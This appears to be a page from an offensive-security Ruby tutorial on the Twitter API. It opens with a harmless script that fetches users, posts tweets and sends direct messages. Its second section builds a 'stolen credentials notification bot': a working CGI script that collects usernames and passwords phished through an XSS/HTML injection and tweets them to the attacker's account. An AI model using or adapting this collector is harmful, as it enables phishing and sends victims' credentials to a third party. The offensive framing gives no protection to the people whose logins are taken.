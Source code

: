 # Twitter API

Dealing with Twitter's API is really useful for information gathering, taxonomy and social engineering. However, you have to have some keys and tokens in-order to interact with Twitter's APIs. To do so, please refer to the official [Twitter development page](https://dev.twitter.com/oauth/overview).

*   Install Twitter API gem

    ```
    gem install twitter
    ```

## Basic Usage

**rubyfu-tweet.rb**

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'twitter'
require 'pp'

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end

puts client.user("Rubyfu")                   # Fetch a user
puts client.update("@Rubyfu w00t! #Rubyfu")  # Tweet (as the authenticated user)
puts client.follow("Rubyfu")                 # Follow User (as the authenticated user)
puts client.followers("Rubyfu")              # Fetch followers of a user
puts client.followers                        # Fetch followers of current user
puts client.status(649235138585366528)       # Fetch a particular Tweet by ID
puts client.create_direct_message("Rubyfu", "Hi, I'm KINGSABRI")    # Send direct message to a particular user
```

![](<../../../.gitbook/assets/webfu\_\_twitterAPI1 (6) (1) (2) (1).png>)

**Your turn**, tweet to @Rubyfu using above example. Tweet your code and output to **@Rubyfu**.

## Building Stolen Credentials notification bot

We're exploiting an XSS/HTML injection vulnerability and tricking users to enter there Username and Password. The idea is, We'll make a [CGI script](http://rubyfu.net/content/module\_0x4\_\_web\_kung\_fu/index.html#cgi) that takes that stolen credentials then tweet these credentials to us as notification or log system

```ruby
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts ""
```
